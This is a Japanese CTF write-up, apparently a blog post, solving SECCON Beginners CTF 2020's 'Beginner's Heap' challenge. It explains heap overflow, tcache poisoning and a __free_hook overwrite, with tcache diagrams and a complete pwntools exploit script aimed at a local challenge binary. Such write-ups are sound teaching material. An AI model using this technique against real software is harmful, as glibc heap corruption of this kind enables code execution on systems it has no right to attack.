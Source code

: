 ```yaml
---
title: "Beginner's Heap - SECCON beginners CTF 2020"
date: 2022-05-01T16:46:44+09:00
tags: ["pwn", "SECCONbeginnersCTF2020", "ptr-yudai's chall"]
draft: false
---
```


[Beginner's Heap (My solver)](https://github.com/yu1hpa/ctf-writeup/tree/master/2020/SECCONBiginnersCTF/BeginnersHeap)

[作問者writeup](https://ptr-yudai.hatenablog.com/entry/2020/05/24/174914#Pwn-293pts-Beginners-Heap-62-solves)

# 方針
Heap overflowによって、下のチャンクの`fd`とサイズを書き換えて、`tcache poisoning` によるwin関数の呼び出し。

# やる
`B`の領域を`malloc`して`free`することで、`tcache`（の0x20ようのスレッド）につなげる。
```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x000055dfd3002350(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### 1. Bのfdを書き換える
`free`されたチャンク(freed chunk)の`fd`が`NULL`なので、次につながっているfreed chunkはない。
ここで、AのHeap Overflowを利用して、Bの`fd`を書き換えると`fd`に値が入るので、tcache君はBの次があると錯覚する。

`A*24 + 0x31 + __freehook`を与えた図。

[![Image from Gyazo](https://i.gyazo.com/3b549b3e5a42c8e50762308c481089cf.png)](https://gyazo.com/3b549b3e5a42c8e50762308c481089cf)

### 2. fdを__free_hookで書き換える
`fd`を`__free_hook`（のアドレス）で書き換えると、`tcache`はこのようになる。

(tcacheを汚染しているので、これを`tcache poisoning`という)

```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x0000557af97c3350(rw-) ]
        ||
        \/
[ 0x00007effac9cc8e8(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### 3. chunk sizeを0x30にする
chunk sizeが`0x20`のままだと、一向に`__free_hook`のアドレスが返ってこない。

`0x30`にすると、Bのfreed chunkは0x30用のtcacheに繋がれるので、`tcache`の先頭に`__free_hook`のアドレスが来る。

(0x20用のtcacheに`B`と`__free_hook`が繋がってるとき)
```
tcache [0x20] -> B -> __free_hook
tcache [0x30] -> NULL
```

↓↓↓

(Bのchunk sizeを0x30にして、malloc and freeしたとき)
```
tcache [0x20] -> __free_hook
tcache [0x30] -> B
```

### __free_hookにwin関数を書き込む
`B = malloc(0x18)`で返ってくるアドレスは、`__free_hook`であることがわかる。
`__free_hook`は、`free()`を実行したときに呼ばれるフック[^1]である。
したがって、`__free_hook`に`win`関数のアドレスを書き込んで`free()`をすることで、`win`関数が呼ばれる。

[^1]: フック(Hook)は、一回経由する場所というイメージである。

### solver

```python
from pwn import *

context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

def write(data):
    io.sendlineafter("> ", "1")
    io.sendline(data)

def malloc(data):
    io.sendlineafter("> ", "2")
    io.sendline(data)

def free():
    io.sendlineafter("> ", "3")

def describe_heap():
    io.sendlineafter("> ", "4")

io = process("./chall")

#leak address
io.recvuntil("<__free_hook>: ")
addr_free_hook = int(io.recvline(), 16)
print("__free_hook address: " + hex(addr_free_hook))

io.recvuntil("<win>: ")
addr_win = int(io.recvline(), 16)
print("win address: " + hex(addr_win))

payload = b"A"*0x18
payload += p64(0x31)
payload += p64(addr_free_hook)

malloc("")
free()
write(payload)

malloc("")
free()

malloc(p64(addr_win))
free()

io.interactive()
```
